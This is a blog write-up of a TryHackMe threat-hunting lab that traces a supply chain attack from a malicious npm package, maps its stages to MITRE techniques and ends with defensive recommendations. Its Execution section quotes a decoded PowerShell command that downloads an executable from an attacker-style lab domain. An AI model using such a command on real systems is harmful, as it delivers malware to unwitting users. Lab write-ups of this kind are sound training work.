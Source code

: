 ```yaml
---
title: Threat Hunting Simulator - Health Hazard
description:  Tryhackme Threat hunting simulator
author: Prabin Shrestha
date: 2025-08-26 11:33:00 +0800
categories: [Writeup, TryHackMe]
tags: [writeup]
pin: false
math: true
mermaid: true
image:
  path: ../assets/img/favicon/writeup/thm/Threat_hunt_sim/15.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


# Incident Writeup – Supply Chain Attack

## Overview
During the setup of a new website, a malicious **npm package (`healthchk-lib@1.0.1`)** was introduced into the system.  
Investigation revealed a **supply chain compromise**: the package executed a hidden script, launched obfuscated PowerShell commands, and established persistence.

---

- **Dashboard Context**  
  The exercise presents a hypothesis that must be validated through log analysis and SIEM findings.

- **Mission**  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/1.png){: width="972" height="589" }

- **Overall Summary**  
    ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/2.png){: width="972" height="589" }

- **Indicators of Compromise (IOC)**  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/3.png){: width="972" height="589" }

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/4.png){: width="972" height="589" }

---

## Findings

### Diving into the SIEM

We begin by reviewing the system logs for unusual activity.

#### Initial Access

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/6.png){: width="972" height="589" }

- Log entries show the installation of the package:  
  `healthchk-lib@1.0.1` via **PowerShell**.  
  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/7.png){: width="972" height="589" }

- Scrolling further, we observe the execution of a **malicious script**:  
  `postinstall.ps1`  

- This script triggered **PowerShell with encoded commands**.  

 ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/11.png){: width="972" height="589" }

- Using **CyberChef** to decode the command:  

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/5.png){: width="972" height="589" }

  → The decoded payload reveals attempts to download an executable (`SystemHealthUpdater.exe`) from the domain `global-update.wlndows.thm`.

#### Attack Stage Diagram
- **Stage 1: Initial Access**  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/13.png){: width="972" height="589" }

---

### Execution

- **Title**: Malicious Script Execution Post Installation  
- **Description**: A PowerShell command executed via `cmd.exe` downloaded `SystemHealthUpdater.exe` using `Invoke-WebRequest`.  
- **Timestamp**: June 21, 2025, 10:58:27 AM BST  
- **Tactic & Technique**:  
  - Execution (**TA0002**)  
  - Command and Scripting Interpreter (**T1059**)  
- **Indicators of Compromise (IOC)**:  
  - Decoded PowerShell revealed:  
    ```powershell
    Invoke-WebRequest -Uri http://global-update.wlndows.thm/SystemHealthUpdater.exe -OutFile $env:APPDATA\SystemHealthUpdater.exe
    ```  

*(Missed the screenshot for this step 🙃)*

---

### Persistence

![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/14.png){: width="972" height="589" }

- **Technique Correction**: Persistence was achieved via **Boot or Logon Autostart Execution**, not the originally assumed method.  
- Registry Run Key entry:  

## Report

All IOCs identified at the beginning were validated during the investigation.  
The hypothesis was confirmed, and the findings were submitted.  

- **AI-Generated Report Reminder**:  
The automated system may omit some details. It ommited IOCs and altered date in my case. Always review before final submission.  

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/15.png){: width="972" height="589" }

---

## Summary

- **Initial Access**: Supply chain attack through npm dependency.  
- **Execution**: Obfuscated PowerShell downloaded and attempted to run a malicious payload.  
- **Persistence**: Run Key added under `HKCU` ensured execution at logon.  

---

## Recommendations

- Perform **regular dependency audits** (`npm audit`, third-party scanners).  
- Enable and monitor **detailed PowerShell logging**.  
- Monitor for suspicious **registry modifications** in `HKCU\...\Run`.  
- Block traffic to **untrusted external domains**.  
- Educate developers on the **risks of supply chain compromises** in open-source packages.  